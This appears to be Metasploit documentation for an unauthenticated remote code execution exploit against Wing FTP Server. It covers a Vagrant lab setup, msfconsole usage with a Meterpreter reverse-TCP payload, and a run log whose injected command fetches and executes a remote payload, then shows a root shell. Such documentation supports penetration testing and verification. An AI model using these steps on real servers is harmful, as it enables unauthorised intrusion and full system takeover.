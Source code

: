 ## Vulnerable Application

This Metasploit module exploits an unauthenticated Remote Code Execution vulnerability in **Wing FTP Server** (Linux 64-bit),
specifically within its web administration interface.
The vulnerability exists due to insufficient input validation in the file upload endpoint,
where an attacker can upload a crafted script and trigger its execution.

To set up a vulnerable environment, use the following **Vagrantfile** which provisions a
Debian “bookworm” VM with Wing FTP Server installed and listening on standard ports:

```ruby
Vagrant.configure("2") do |config|
  config.vm.box = "debian/bookworm64"

  if Vagrant.has_plugin?("vagrant-vbguest")
    config.vbguest.auto_update = false
  end

  {
    21    => 2121,   # FTP
    990   => 2990,   # FTPS
    5466  => 5466,   # Admin port WingFTP
    50000 => 50000,  # Passive FTP range start
    50050 => 50050,  # Passive FTP range end
    80    => 8081    # HTTP WingFTP Web GUI
  }.each do |guest, host|
    config.vm.network "forwarded_port",
                      guest:        guest,
                      host:         host,
                      host_ip:      "0.0.0.0",
                      auto_correct: true
  end

  config.vm.provision "shell", inline: <<-SHELL
#!/usr/bin/env bash
set -e

ADMIN_USER="admin"
ADMIN_PASS="adminadmin"
ADMIN_PORT="5466"
WFTP_URL="https://web.archive.org/web/20250108084555/https://www.wftpserver.com/download/wftpserver-linux-64bit.tar.gz"

apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y --no-install-recommends \
  wget ca-certificates libssl3 libpam0g libacl1 libcap2 \
  net-tools procps expect curl \
  linux-headers-amd64 build-essential dkms

mkdir -p /opt/wingftp
cd /opt/wingftp
wget -qO wftp.tar.gz "$WFTP_URL"
tar xzf wftp.tar.gz --strip-components=1
rm wftp.tar.gz
chmod +x setup.sh

expect -c "
  spawn /opt/wingftp/setup.sh
  expect \\\"Enter your administrator name:\\\"     { send \\\"${ADMIN_USER}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter the listener port\\\"           { send \\\"${ADMIN_PORT}\\r\\\" }
  expect \\\"Do you want to start Wing FTP Server now?\\\" { send \\\"y\\r\\\" }
  expect eof
"

systemctl daemon-reload
systemctl enable wftpserver.service
systemctl start wftpserver.service
SHELL

  config.vm.provider "virtualbox" do |vb|
    vb.memory = 512
    vb.cpus   = 1
  end
end
```

* Save this as Vagrantfile in an empty directory.
* Run vagrant up.
* After provisioning, access the Wing FTP Server web UI at http://localhost:5466/ with credentials admin/adminadmin.
* On first login, a popup will appear; click OK.
* Create a new domain in the admin interface (this will enable the web client panel, port 8081).
* Then create a new user; for simplicity, use anonymous.

---

## Verification Steps

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wingftp_null_byte_rce
```
3. Set target parameters:
```
set RHOSTS 127.0.0.1
set RPORT 8081
set TARGETURI /
```
4. Configure payload:
```
set payload cmd/linux/http/x64/meterpreter/reverse_tcp
set LHOST <your IP>
set LPORT <your port>
```
5. Run the exploit:
```
run
```
6. On success, a Meterpreter session will open, confirming remote code execution.

---

## Options

* USERNAME - A valid username (default: anonymous)
* PASSWORD - A valid password (default: '')

---

## Scenarios

### Successful Exploitation against Wing FTP Server

**Setup**:

* Wing FTP Server running in the Vagrant VM above.
* Attacker on host machine with Metasploit.

**Steps**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wingftp_null_byte_rce) > run http://lab:8081
[*] Command to run on remote host: curl -so ./FaWVivODJhB http://192.168.1.36:9999/LoPlnjEpeOexZNVppn6cAA;chmod +x ./FaWVivODJhB;./FaWVivODJhB&
[*] Fetch handler listening on 192.168.1.36:9999
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. UID cookie received: UID=2a5efb5a398e4ff19369a523c3cfffb03683e20446a6b40715757e2b05f10521
[+] Received UID: UID=146015b242094d8f4eff04941d94e67d3683e20446a6b40715757e2b05f10521
[*] Client 192.168.1.36 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.36 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.36:46260) at 2025-07-01 18:56:31 +0200

meterpreter > sysinfo 
Computer     : 10.0.2.15
OS           : Debian 12.9 (Linux 6.1.0-37-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
